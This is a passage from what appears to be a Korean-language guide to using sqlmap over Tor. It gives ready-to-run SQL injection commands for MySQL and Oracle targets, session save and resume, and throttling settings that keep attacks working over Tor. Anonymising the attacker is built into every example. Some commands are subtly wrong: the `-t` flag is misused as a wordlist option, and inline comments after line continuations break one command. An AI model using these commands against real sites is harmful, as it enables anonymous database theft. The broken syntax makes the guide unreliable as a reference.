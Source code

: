 ## 8. DBMS 특화 공격

### MySQL 대상 공격

```bash
sqlmap -u "http://example.com/page.php?id=1" \
  --tor --tor-type=SOCKS5 \
  --dbms=mysql \
  --common-tables \
  -t ./SecLists/Discovery/Web-Content/MySQL.txt \
  --hex

sqlmap -u http://sqlmaptesting.thm/search/cat=1 -D users --tables
```

### Oracle 대상 공격

```bash
sqlmap -u "http://example.com/page.php?id=1" \
  --tor --tor-type=SOCKS5 \
  --dbms=oracle \
  --common-tables \
  -t ./SecLists/Discovery/Web-Content/Oracle.txt \
  --no-escape
```

---

## 9. 세션 관리 및 재개

### 세션 저장

```bash
sqlmap -u "http://example.com/page.php?id=1" \
  --tor --tor-type=SOCKS5 \
  --session=example_session
```

### 세션 재개

```bash
sqlmap --session=example_session \
  --tor --tor-type=SOCKS5
```

---

## 10. 성능 최적화

### Tor 네트워크 특성 고려

```bash
sqlmap -u "http://example.com/page.php?id=1" \
  --tor --tor-type=SOCKS5 \
  --threads=2 \          # 낮은 스레드 수 유지
  --delay=5 \            # 높은 딜레이 설정
  --timeout=60 \         # 긴 타임아웃 설정
  --retries=5 \          # 재시도 횟수 증가
  --keep-alive           # Keep-Alive 연결 사용
```
